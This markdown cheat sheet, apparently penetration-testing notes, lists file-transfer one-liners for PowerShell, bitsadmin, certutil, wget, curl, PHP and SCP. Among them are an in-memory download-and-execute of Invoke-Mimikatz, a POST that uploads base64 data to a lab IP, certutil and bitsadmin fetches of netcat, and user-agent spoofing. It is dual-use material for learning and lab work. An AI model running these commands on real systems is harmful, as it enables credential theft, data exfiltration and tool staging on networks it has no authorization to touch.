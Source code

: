# File Transfer Commands

## PowerShell

| Command | Description |
|---------|-------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')` | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |

## Bitsadmin

| Command | Description |
|---------|-------------|
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |

## Certutil

| Command | Description |
|---------|-------------|
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |

## Wget

| Command | Description |
|---------|-------------|
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |

## cURL

| Command | Description |
|---------|-------------|
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |

## PHP

| Command | Description |
|---------|-------------|
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |

## SCP

| Command | Description |
|---------|-------------|
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |

## User-Agent Spoofing (PowerShell)

| Command | Description |
|---------|-------------|
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
